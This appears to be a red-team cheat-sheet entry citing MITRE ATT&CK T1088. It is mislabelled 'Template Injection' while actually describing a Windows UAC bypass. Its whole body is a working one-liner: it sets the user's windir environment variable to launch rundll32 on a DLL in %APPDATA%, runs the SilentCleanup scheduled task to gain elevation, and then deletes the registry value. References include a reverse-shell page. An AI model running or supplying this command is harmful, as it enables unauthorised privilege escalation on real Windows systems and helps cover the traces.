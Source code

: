 # Template Injection

---
* **ID**: T1088
* **Source**: <https://attack.mitre.org/techniques/T1088/>
---

# Details

## Exploiting Environment Variables in Schedule Tasks for User Account Control (UAC) Bypass

```
reg add HKCU\Environment /v windir /d "rundll32 %APPDATA%\temp.txt,DllMain " /f&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I & reg delete HKCU\Environment /v windir /f
```

# References

* <https://github.com/hfiref0x/UACME>
* <https://tyranidslair.blogspot.com/2017/05/exploiting-environment-variables-in.html>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
